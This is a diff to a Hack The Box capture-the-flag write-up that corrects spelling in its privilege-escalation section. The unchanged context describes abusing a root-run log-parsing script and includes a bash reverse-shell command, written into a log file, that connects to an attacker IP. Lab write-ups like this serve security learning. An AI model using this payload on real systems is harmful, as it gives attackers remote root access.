

Before and after one commit to Raihan93-coder/HTB-writeups, a Markdown page: eureka/WriteUp.md, the part around the change. GitHub-like rendering.

````diff
--- a/eureka/WriteUp.md
+++ b/eureka/WriteUp.md
@@ -64,11 +64,11 @@ inject revshell into application.log
 - SSH into the machine as new user and got the user flag
 
 ## 🧪Exploitation
-- Used all the known prevelage escalation commands and found nothing useful so manually checked the files and found an interesting file called log_analyse.sh
+- Used all the known privilege escalation commands and found nothing useful so manually checked the files and found an interesting file called log_analyse.sh
 - Cat the file to find that the file reads and execute the content in the file path /var/www/web/user-management-service/log/application.log
-- So wrote a reverse script to opened a listner in my system
+- So wrote a reverse script to opened a listener in my system
   ```bash
   echo 'HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.16.31/4444 0>&1)]' > /var/www/web/user-management-service/log/application.log
   ```
-  > (Note:First delete th content in the file and then use the above command)
+  > (Note:First delete the content in the file and then use the above command)
 - Got the reverse shell as root and dumped the root flag 🚩
````
